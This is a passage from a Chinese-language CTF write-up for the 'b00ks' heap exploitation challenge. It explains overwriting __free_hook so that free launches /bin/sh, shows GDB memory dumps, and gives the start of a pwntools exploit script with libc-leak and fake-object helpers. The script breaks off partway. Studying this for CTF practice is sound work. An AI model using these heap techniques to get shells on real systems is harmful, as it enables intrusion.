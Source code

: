 &nbsp;&nbsp;&nbsp;&nbsp;通过`first b00k`修改`second b00k`的`description`指针为`__free_hook`, 在修改second b00k的description内容为`execve("/bin/sh", null, environ)`, 最后执行`free`
```
0x55f276c74190:	0x0000000000000002	0x00007f282b7047a8 --
0x55f276c741a0:	0x00007f282b7047a8	0x0000000000021000  |
......                                                  |
0x7f282b7047a8 <__free_hook>:	0x00007f306ff4726a	0x0000000000000000
```
&nbsp;&nbsp;&nbsp;&nbsp;**结论:** 由于`__free_hook`里面的内容不为`NULL`, 遂执行内容指向的指令, 即`execve("/bin/sh", null, environ)`

#### 相关问题解答
**为什么第二个 `b00k`申请的空间那么大?**
> &nbsp;&nbsp;&nbsp;&nbsp;If we allocate a chunk bigger than the wilderness chunk, it mmap’s a new area for use. And this area is adjacent to the libc’s bss segment
简单的说, 申请小了不能够泄露出`libc base address`
#### 完整EXP
```
from pwn import *

context.log_level = 'debug'
p = process("./b00ks")
libc = ELF("./libc.so.6")
gdb.attach(p)

def memleak1(p):
     p.sendline("4")
     log.info(p.recvuntil("Author:"))
     msg = p.recvline()
     log.info(p.recvuntil(">"))
     msg = msg.split("A"*32)[1].strip("\n")
     addr = u64(msg.ljust(8, "\x00"))
     log.success("Leaked address of struct object : " + hex(addr))
     return addr

def memleak2(p):
     p.sendline("4")
     p.recvuntil("Name: ")
     msg=p.recvline().strip("\n")
     msg=u64(msg.ljust(8, "\x00"))
     log.info(p.recv(timeout = 1))
     log.success("Leaked address of allocated area " + hex(msg))
     return msg

def change_ptr(p):
     log.progress("Changing the struct pointer")
     p.sendline("5")
     log.info(p.recvuntil(":"))
     p.sendline("A"*32)
     log.info(p.recvuntil(">"))

def fake_obj(p, payload, index):
     log.progress("Editing description")
     p.sendline("3")
     log.info(p.recvuntil(":"))
     p.sendline(str(index))
     log.info(p.recvuntil(":"))
     p.sendline(payload)

def create_book(p,size):
     p.sendline("1")
     log.info(p.recvuntil(":"))
     p.sendline(str(size))
     log.info(p.recvuntil(":"))
```